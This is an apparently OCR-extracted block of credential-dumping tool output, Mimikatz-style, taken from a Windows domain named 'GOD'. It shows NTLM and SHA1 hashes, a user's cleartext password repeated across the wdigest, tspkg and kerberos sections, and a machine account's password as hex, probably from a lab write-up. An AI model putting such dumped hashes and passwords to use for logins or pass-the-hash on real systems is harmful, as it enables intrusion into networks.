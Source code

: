 ```bash
===============

Username      Domain  LM                                NTLM                              SHA1
--------      ------  --                                ----                              ----
OWA$          GOD                                       7138b1b282d2b65b78d86d1f68b470b0  140d2eb4c49a4196a61d4970026fa7b8b940a4ad
liukaifeng01  GOD     0e6a7aaeba5a8524bfae8bea1f754223  1c36e6503a34d05d29f4a86fdaf45cae  37edabb3a1c364ba301ea5ecbab81db8bc70c7a8

wdigest credentials
===================

Username      Domain  Password
--------      ------  --------
(null)        (null)  (null)
OWA$          GOD     f1 67 2b ab 2a cf b9 80 42 1e d0 c8 ee 8a 21 40 e8 69 b6 d4 30 db 2c 69 eb ea ee 2e a4 e7 b2 b5 6d 9d c9 62 37 18 8b f9 b7 d0 96 fc 8
                      e 16 f2 b7 3b 34 a7 f8 13 a4 b6 96 69 db 82 60 45 20 f7 df 84 de da 47 3f 17 95 00 42 55 91 d3 91 4a d9 42 a5 de 5e 46 7d e1 af db ea
                       6b 81 96 2e 90 9c 05 51 52 88 5a a3 5b 17 65 33 e7 2d c9 44 52 17 7a 92 3f 75 b0 92 13 21 89 9f be 84 93 30 8f ce 44 3f d8 65 fd 0c
                      2e 88 8b f8 f3 8e 3e 09 8c ae 28 52 d6 e9 af db f8 6e 17 4d d5 dc 71 79 d1 30 28 2e 79 ab cb 55 1a 75 76 22 bb 0d ca 07 7f 2f 6d d5 b
                      7 7c 2a b2 9a e6 7e e4 5a a8 5b 43 0e 73 ae aa c8 e7 64 3b 31 ff 85 78 e9 57 34 fa 2d 83 7d 22 1f e3 c1 1e 5c 02 37 54 ba 56 d0 41 23
                       be ac 74 1b 2d f6 b6 6f 08 74 fe 34 26 7f 97 4f 00 38
liukaifeng01  GOD     QWERasdf@123

tspkg credentials
=================

Username      Domain  Password
--------      ------  --------
liukaifeng01  GOD     QWERasdf@123

kerberos credentials
====================

Username      Domain   Password
--------      ------   --------
(null)        (null)   (null)
liukaifeng01  GOD.ORG  QWERasdf@123
owa$          GOD.ORG  f1 67 2b ab 2a cf b9 80 42 1e d0 c8 ee 8a 21 40 e8 69 b6 d4 30 db 2c 69 eb ea ee 2e a4 e7 b2 b5 6d 9d c9 62 37 18 8b f9 b7 d0 96 fc
                       8e 16 f2 b7 3b 34 a7 f8 13 a4 b6 96 69 db 82 60 45 20 f7 df 84 de da 47 3f 17 95 00 42 55 91 d3 91 4a d9 42 a5 de 5e 46 7d e1 af db
                       ea 6b 81 96 2e 90 9c 05 51 52 88 5a a3 5b 17 65 33 e7 2d c9 44 52 17 7a 92 3f 75 b0 92 13 21 89 9f be 84 93 30 8f ce 44 3f d8 65 fd
                       0c 2e 88 8b f8 f3 8e 3e 09 8c ae 28 52 d6 e9 af db f8 6e 17 4d d5 dc 71 79 d1 30 28 2e 79 ab cb 55 1a 75 76 22 bb 0d ca 07 7f 2f 6d
                       d5 b7 7c 2a b2 9a e6 7e e4 5a a8 5b 43 0e 73 ae aa c8 e7 64 3b 31 ff 85 78 e9 57 34 fa 2d 83 7d 22 1f e3 c1 1e 5c 02 37 54 ba 56 d0
                       41 23 be ac 74 1b 2d f6 b6 6f 08 74 fe 34 26 7f 97 4f 00 38
```
